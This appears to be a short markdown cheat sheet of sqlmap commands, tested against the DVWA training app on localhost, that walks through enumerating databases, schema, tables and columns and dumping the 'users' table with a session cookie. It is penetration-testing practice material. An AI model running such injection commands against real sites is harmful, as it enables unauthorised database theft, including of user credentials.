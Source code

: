 # SQL MAP (tested on dvwa)
## Read Manual of [sqlmap](../manual/sqlmap.txt)
### 1 . using ```--cookie``` & ```--tables```
```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie="PHPSESSID=17258d812ca21d6e07229084050be915;security=low" --tables 
```
### 2.using ``` --schema``` & ```--batch```
- batch will select default option

``` bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie="PHPSESSID=17258d812ca21d6e07229084050be915;security=low" --schema --batch
```

### 3.using ```--columns ``` & ```--batch```
- we will numerate a certain columns

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie="PHPSESSID=17258d812ca21d6e07229084050be915;security=low" --columns -T users --batch
```
### 4.Dump data using ```--dump``` 
- let's dump the data table
```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie="PHPSESSID=17258d812ca21d6e07229084050be915;security=low" --dump -T users --batch
```

### 5. using ```--dbs```
``` bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie="PHPSESSID=17258d812ca21d6e07229084050be915;security=low" --dbs --batch 
```

### 6.using -D
- we can look tables of a specific database
```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie="PHPSESSID=17258d812ca21d6e07229084050be915;security=low" --tables -D dvwa
```
